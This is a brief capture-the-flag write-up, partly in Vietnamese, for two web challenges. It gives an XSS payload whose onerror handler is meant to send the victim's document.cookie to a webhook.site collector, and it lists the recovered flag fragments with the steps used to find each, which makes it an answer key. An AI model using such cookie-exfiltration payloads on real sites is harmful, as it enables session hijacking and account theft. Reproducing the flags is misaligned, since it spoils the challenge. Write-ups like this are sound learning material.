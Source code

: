 ## Web 1: XSS
*payload* = </script><img src onerror="https://webhook.site/e0ab9c4f-1caf-47fb-bfc4-1f08b1f706b6?cookie="+document.cookie>

## web 2: Tìm các mảnh flag được giấu trong trang

-**seen1**: S4bZz3hhH, ở endpoint /ohhh-ive-seen-a-seen khi xem robots.txt
-**seen2**: S1IIr, xem tại /sitemap.xml
-**seen3**: S1iBb, xem source, tại hàm attr của <input>
-**seen4**: S4Am4n0Oo, xem source, nằm ở phần comment dưới cùng 
-**seen5**: Se3nJ3dDd, /xor-key, while trying to get the seen7
-**seen6**: SOonb0Ll, b64 encoded trong resquest header
-**seen7**: Se3kKke3, tại endpoint /xor-key sửa Sec-Fetch-Dest từ document thành 7seen và thêm ?name=Hajji+firuz vào url, được một đoạn encode. Đem đoạn encode đó xor với seen 5 sẽ ra seen 7
